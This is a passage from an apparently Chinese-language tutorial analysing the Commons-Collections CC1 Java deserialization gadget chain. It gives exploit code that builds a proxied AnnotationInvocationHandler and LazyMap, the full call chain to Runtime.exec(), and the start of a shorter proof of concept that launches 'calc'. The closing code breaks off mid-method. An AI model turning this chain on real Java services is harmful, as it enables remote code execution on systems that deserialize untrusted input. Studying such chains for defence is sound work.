         // 如何调用AnnotationInvocationHandler#invoke方法呢？可以使用代理，将前面获取的AnnotationInvocationHandler对象作为代理的handler
        // 那么只要调用代理对象的任何方法，都将触发AnnotationInvocationHandler对象的invoke方法
        // 获取一个代理对象，将前面获取的AnnotationInvocationHandler实例作为代理对象的InvocationHandler
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);

        // 最后将proxyMap封装在AnnotationInvocationHandler对象中，作为反序列化入口
        InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

        // 最后再把真正的Transformer传入chainedTransformer
        Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
        Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,trueTransformer);
        // 序列化和反序化测试
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(res);
        new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray())).readObject();
    }

这里给出调用栈，如下图所示：

![CC1调用栈][p6]

***Notice:***  Debug时候，发现Map(Proxy).entrySet()始终无法跳到这个断点，最后是在LazyMap#get中直接打上断点才调试到整个利用链的。

下面给出完整的利用链：

	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections

这边再贴一个P神的原创POC，比ysoserial的要简单：

    @Test
    public void test7() throws Exception{
        // 用P神的链打一下
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
